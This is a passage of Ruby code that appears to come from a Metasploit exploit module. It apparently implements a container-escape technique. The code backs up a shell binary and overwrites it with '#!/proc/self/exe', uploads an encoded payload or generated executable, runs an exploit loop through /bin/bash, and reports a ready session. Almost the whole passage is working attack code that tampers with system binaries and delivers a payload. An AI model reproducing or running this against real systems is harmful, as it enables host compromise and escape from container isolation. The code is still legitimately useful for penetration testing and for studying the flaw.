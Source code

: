        path = datastore['WRITABLEDIR']
        overwrite_shell(path)
        shell_path = setup_exploit(path)

        print_status("Launch exploit loop and wait for #{wfs_delay} sec.")
        cmd_exec('/bin/bash', shell_path, wfs_delay, 'Subshell' => false)

        print_status('Done. Waiting a bit more to make sure everything is setup...')
        sleep(5)
        print_good('Session ready!')
      end

      def verify_shells
        ['OVERWRITE', 'SHELL'].each do |option_name|
          shell = datastore[option_name]
          unless command_exists?(shell)
            fail_with(Failure::BadConfig,
                      "Shell specified in #{option_name} module option doesn't exist (#{shell})")
          end
        end
      end

      def overwrite_shell(path)
        @shell = datastore['OVERWRITE']
        @shell_bak = "#{path}/#{rand_text_alphanumeric(5..10)}"
        print_status("Make a backup of #{@shell} (#{@shell_bak})")
        # This file will be restored if the loop script succeed. Otherwise, the
        # cleanup method will take care of it.
        begin
          copy_file(@shell, @shell_bak)
        rescue Rex::Post::Meterpreter::RequestError => e
          fail_with(Failure::NoAccess, "Unable to backup #{@shell} to #{@shell_bak}: #{e}")
        end

        print_status("Overwrite #{@shell}")
        begin
          write_file(@shell, '#!/proc/self/exe')
        rescue Rex::Post::Meterpreter::RequestError => e
          fail_with(Failure::NoAccess, "Unable to overwrite #{@shell}: #{e}")
        end
      end

      def setup_exploit(path)
        print_status('Upload payload')
        payload_path = "#{path}/#{rand_text_alphanumeric(5..10)}"
        if target['Type'] == :unix_memory
          vprint_status("Updated payload:\n#{payload.encoded}")
          upload(payload_path, payload.encoded)
        else
          pl = generate_payload_exe
          if pl.size > PAYLOAD_MAX_SIZE
            fail_with(Failure::BadConfig,
                      "Payload is too big (#{pl.size} bytes) and must less than #{PAYLOAD_MAX_SIZE} bytes")
          end
          upload(payload_path, generate_payload_exe)
        end
